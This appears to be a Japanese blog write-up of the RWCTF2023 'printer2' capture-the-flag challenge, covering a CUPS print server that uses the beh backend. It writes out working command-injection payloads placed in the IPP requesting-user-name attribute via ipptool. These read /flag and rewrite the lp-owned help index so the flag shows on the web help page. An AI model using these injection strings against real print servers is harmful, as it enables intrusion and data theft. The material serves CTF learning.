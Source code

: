 ```yaml
---
layout: page
title: "RWCTF2023 printer2"
date: 2023-01-08 00:00:00 -0000
---
```


プリンタのソフトウェアのpwnです。

Dockerfileはとてもシンプルでcupsを入れて終わりです。コンフィグも目立ったところはありません。

```
FROM ubuntu:22.04

RUN apt-get update && \
    apt-get install -qy cups 

COPY ./flag /flag
COPY ./cupsd.conf /etc/cups/cupsd.conf
COPY ./start.sh /start.sh

RUN chmod 755 /flag
RUN chmod 755 /start.sh

ENTRYPOINT ["/start.sh"]
```

また、私が触り始めたときにはすでにヒントが出ていました。

`hint: Take a look at my startup script!`

start.shは以下の通りです。

```
#!/bin/bash

sleep 10 && lpadmin -p rwctf -E -v beh:/1/3/5/socket://printer:9100 &
/usr/sbin/cupsd -f -C /etc/cups/cupsd.conf -s /etc/cups/cups-files.conf
```

この問題を見始めた時点で、cupsdの方は他の人がかなり調べているように見えたので、このヒントから `lpadmin`のコマンドを見ます。

[それっぽいwiki](https://wiki.linuxfoundation.org/openprinting/database/backenderrorhandler)が見つかりました。

`lpadmin`はプリンタを追加するコマンドです。接続先を指定しますが、先頭を`beh:`という書きだしにしておくことで、jobをためてエラーが出ても再開してくれるようになるそうです。

`beh:/1/3/5/socket://printer:9100` は例文にもあるレベルの書き方で、特に変わったところはありません。３回５秒空けてリトライする書き方とのことでした。

プリント方法について調べました。６３１番で待っているWebページからは、testページを印刷する機能がありましたが、それにならってPOSTしてみても、いい感じの引数が入りません。何とか普通に印刷したいです。

少し探していると、ipptoolを使ってやればよいという記載が見つかります。[公式](https://www.cups.org/doc/man-ipptool.html)では、`ipptool ipp://localhost/printers/myprinter get-completed-jobs.test` というフォーマットで送ってやると、いろいろできていそうです。wiresharkで見ると、IPPというプロトコルで通信しているのが分かります。ペイロードがPOSTなのですが、少し違っているようです。また`get-completed-jobs.test`でファイルを探すと、`/usr/share/cups/ipptool/`にたくさん見つかります。テストデータのようです。

print-job.testもありました。

```
# Print a test page using print-job
{
        # The name of the test...
        NAME "Print file using Print-Job"

        # The operation to use
        OPERATION Print-Job

        # Attributes, starting in the operation group...
        GROUP operation-attributes-tag
        ATTR charset attributes-charset utf-8
        ATTR language attributes-natural-language en
        ATTR uri printer-uri $uri
        ATTR name requesting-user-name $user
        ATTR mimeMediaType document-format $filetype

        GROUP job-attributes-tag
        ATTR integer copies 1

        FILE $filename

        # What statuses are OK?
        STATUS successful-ok
        STATUS successful-ok-ignored-or-substituted-attributes

        # What attributes do we expect?
        EXPECT job-id
        EXPECT job-uri
}
```

動作させると、behが起動しているようです。プリンタの実態がないので、jobはキャンセルしない限り残り続けます。

```
root           8  0.0  0.2  68592 16348 ?        S    08:24   0:09 /usr/sbin/cupsd -f -C /etc/cups/cupsd.conf -s /etc/cups/cups-files.conf
lp          3042  0.0  0.0   2772  1880 ?        S    13:40   0:00 beh:/1/3/5/socket://printer:9100 113 jt Untitled 1 job-uuid=urn:uuid:3982a81f-4d2b-3b5f-6a92-0dad14094500 job-originating-host-name=172.17.0.1 date-time-at-
lp          3043  0.0  0.0   2888  1004 ?        S    13:40   0:00 sh -c /usr/lib/cups/backend/socket '113' 'jt' 'Untitled' '1' 'job-uuid=urn:uuid:3982a81f-4d2b-3b5f-6a92-0dad14094500 job-originating-host-name=172.17.0.1 da
lp          3044  0.2  0.0  16892  7612 ?        S    13:40   0:00 /usr/lib/cups/backend/socket 113 jt Untitled 1 job-uuid=urn:uuid:3982a81f-4d2b-3b5f-6a92-0dad14094500 job-originating-host-name=172.17.0.1 date-time-at-crea
```

コマンドインジェクションの香りがします。`ATTR name requesting-user-name $user` を変えてみましょう。

`ATTR name requesting-user-name "';cat /flag > /tmp/a;'"`で撃ってみると、/tmp以下にファイルができています。刺さってしまいました。

```
# cat /tmp/a
rwctf{this is sample flag}
```

リバースシェルして終わりと思いましたが、lpの権限で動いているため、リバースどころかファイルの書き換えすらできません。lpが持っているファイルを探します。

`# find / -name cups -type d|xargs ls -la`でぼんやり眺めていたところ、`/var/cache/cups/help.index`というファイルがlpの所有物であることが分かります。`echo`で適当に書き換えても反映されます。

中身はWebページの`/help`以下に展開される見出しやテーブルの情報でした。何とかここに書き足して反映されないか、ほかの行を真似して書き足してみたところ、見出しなら追加されるようです。gzファイルになっているので、解凍して書き足して戻してあげます。

`ATTR name requesting-user-name "';cp /var/cache/cups/help.index /tmp/help.gz;gzip -d /tmp/help.gz; echo 'translation.html#aaaabbbb 114 514 \"'$$(cat /flag)'\"' >> /tmp/help; cp /tmp/help /tmp/bak; gzip /tmp/help; cp /tmp/help.gz /var/cache/cups/help.index;'"`

送ってみると、確かにページのどこかに追加されています。

```
$ ipptool -f ./start.sh ipp://172.17.0.2:631/printers/rwctf ./hoge
$ $ curl http://172.17.0.2:631/help/translation.html |grep aaaabbbb
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0<P CLASS="l2"><A HREF="#aaaabbbb">rwctf{this is sample flag}</A></P>
<P CLASS="l2"><A HREF="#aaaabbbb">rwctf{this is sample flag}</A></P>
<P CLASS="l2"><A HREF="#aaaabbbb">rwctf{this is sample flag}</A></P>
100 30612    0 30612    0     0   550k      0 --:--:-- --:--:-- --:--:--  564k
```

本番サーバでやってみると、見出しのところにいました。

![](/assets/rw2023-printer2/flag.png)

久々に本番の締め切りに間に合いました。５solveだったので、１つ順位が上がりました。なんとかお役に立ててよかったです。

